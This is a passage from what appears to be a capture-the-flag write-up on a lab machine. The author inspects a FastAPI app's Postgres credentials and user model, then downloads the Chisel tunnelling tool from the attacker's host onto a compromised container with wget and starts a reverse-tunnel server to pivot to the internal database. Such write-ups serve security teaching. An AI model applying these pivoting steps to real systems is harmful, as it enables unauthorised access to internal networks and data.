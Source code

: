     # Databases query builder
    database = Database(DATABASE_URL)
    

The database is running as the postgres user with password “postgres” on
172.22.0.1.

Even though the user object that came back via the API only showed `id`,
`email`, and `username`, there’s also a `password` column in the DB. That’s
because the of the model that’s defined in `api/models.py`:

    
    
    class userDB(BaseModel):
        id: int
        email: str
        username: str
    

It’s invoked in each of the routes in `api/users.py`. For example:

    
    
    # List users
    @router.get('/',response_model=List[userDB], status_code=201, dependencies=[Depends(is_logged), Depends(is_admin)])
    async def get_users(request: Request):
    
        return await crud.get_users()
    

### Database

#### Chisel Tunnel

I’ll grab the latest release from the [Chisel release
page](https://github.com/jpillora/chisel/releases/tag/v1.8.1) and (serving it
with Python) upload it to the container:

    
    
    /tmp # wget 10.10.14.6/chisel_1.8.1_linux_amd64
    Connecting to 10.10.14.6 (10.10.14.6:80)
    chisel_1.8.1_linux_a 100% |********************************| 8188k  0:00:00 ETA
    

I’ll now start the server, changing the listening port because Burp is already
listening on the default of 8080, and allowing for clients to open up reverse
tunnels:

    
    
    oxdf@hacky$ /opt/chisel/chisel_1.8.1_linux_amd64 server -p 8000 --reverse
    2023/03/01 15:27:13 server: Reverse tunnelling enabled
    2023/03/01 15:27:13 server: Fingerprint ybrz1cfmVu7k7CBD0xbNbHyFj1iM1q+Hyes16akTrl4=
    2023/03/01 15:27:13 server: Listening on http://0.0.0.0:8000
    
